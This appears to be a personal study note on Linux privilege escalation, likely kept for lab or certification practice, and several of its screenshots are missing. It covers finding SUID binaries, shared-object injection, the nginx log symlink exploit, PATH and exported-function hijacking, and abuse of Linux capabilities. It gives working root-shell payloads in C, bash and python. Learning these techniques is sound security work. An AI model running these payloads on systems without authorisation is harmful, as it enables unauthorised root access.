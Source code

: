 SUID

Monday, January 1, 2024

8:59 PM

 

-   SUID gives user 777

-   shows in linpeas

-   not all with suid set are vulnerable but gtfobins has them

>  

 

-   show executables with suid

    -   find / -perm -u=s -type f 2\> /dev/null

    -   find / -type f -perm -04000 -ls 2\>/dev/null

 

 

-   Shared object injection

    -   when enumerating for suid we can test to see if they are running process that may contain files that are missing so that we can inject a malicious file in that place

    -   use strace and grep on the binary

        -   ![](010_SUID_000.png){width="7.8125in" height="2.7604166666666665in"}

    -   mkdir /home/user/.config

    -   nano a file called libcalc.c and write quick c exploit

> #include \<stdio.h\>
>
> #include \<stdlib.h\>
>
>  
>
> static void inject() \_\_attribute\_\_((constructor));
>
>  
>
> void inject() {
>
> system(\"cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p\");
>
> }
>
>  

-   compile with gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c

-   run with /usr/local/bin/suid-so

 

 

-   Binary Symlinks

    -   mix of nginx and suid

    -   <https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html>

    -   Web server permissions of nginx logs allow attacker to escalate from www-data to root

    -   often after a web exploit we come in as www-data

        -   ![](010_SUID_001.png){width="1.1875in" height="0.5104166666666666in"}

    -   If we can get linux exploit suggester on machine we can see nginex-root.sh

        -   ![](010_SUID_002.png){width="8.322916666666666in" height="1.375in"}

>  

-   We can maually see this as well with dpkg -l \| grep nginx

    -   ![](010_SUID_003.png){width="8.229166666666666in" height="0.9166666666666666in"}

    -   we are looking for version 1.6.2 or earlier

    -   SUID bit must also be set on sudo

        -   ![](010_SUID_004.png){width="6.708333333333333in" height="0.5104166666666666in"}

    -   we can also see in the log file that is has root privilege

        -   ![](010_SUID_005.png){width="4.875in" height="1.4583333333333333in"}

        -   symlink replaces log file with malicious file.

```{=html}
<!-- -->
```
-   nginx must startup or restart

-   point our malicious script at the log file

    -   ![](010_SUID_006.png){width="4.5625in" height="0.28125in"}

>  

-   ![](010_SUID_007.png){width="8.34375in" height="7.739583333333333in"}

```{=html}
<!-- -->
```
-   Need to wait for server restart, or if we have permission we can restart in a separate shell

    -   ![](010_SUID_008.png){width="5.739583333333333in" height="0.4270833333333333in"}

>  

-   ![](010_SUID_009.png){width="4.03125in" height="1.34375in"}

 

 

-   Environmental variables

    -   variables that are available systemwide and are inherited by all spawn child processes and shells

    -   env to see

    -   when testing the env variables we can see that we have suid on one we can run that attempts to start our apache server

        -   ![](010_SUID_010.png){width="7.5625in" height="0.2708333333333333in"}

>  

-   ![](010_SUID_011.png){width="5.84375in" height="3.2604166666666665in"}

```{=html}
<!-- -->
```
-   we can write some malicious c code and inject it into the path in place of service for service apache2 start

-   current PATH

    -   ![](010_SUID_012.png){width="8.135416666666666in" height="0.375in"}

-   c code for spawning a root shell

    -   echo \'int main() {setgid(0); setuid(0); system(\"/bin/bash\"); return 0;}\' \> /tmp/service.c

    -   compile with gcc /tmp/service.c -o /tmp/service

-   export PATH=/tmp:\$PATH

-   we can now see we added /temp to PATH with our c code

    -   ![](010_SUID_013.png){width="8.104166666666666in" height="0.8541666666666666in"}

-   When we run our variable again we get a root shell

    -   ![](010_SUID_014.png){width="3.1979166666666665in" height="0.5416666666666666in"}

 

-   second example is calling a direct path

    -   ![](010_SUID_015.png){width="3.9791666666666665in" height="2.5416666666666665in"}

    -   create a malicious function

        -   function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

    -   export function

        -   export -f /usr/sbin/service

    -   ![](010_SUID_016.png){width="3.2916666666666665in" height="0.5729166666666666in"}

>  
>
>  

-   Capabilities

    -   similar to suid in concept

    -   starting with kernel 2.2 divides privileges associate with super user into distinct units that can be disabled and enabled. More secure than suids

    -   escalation can still happen

    -   getcap -r / 2\>/dev/null

        -   ![](010_SUID_017.png){width="3.1666666666666665in" height="0.5104166666666666in"}

        -   /usr/bin/python2.6 -c \'import os; os.setuid(0); os.system(\"/bin/bash\")\'

        -   ![](010_SUID_018.png){width="7.15625in" height="0.3958333333333333in"}

        -   works with a few other things look for cap_setuid+ep (premit everything)

        -   python, perl, openssl, tar
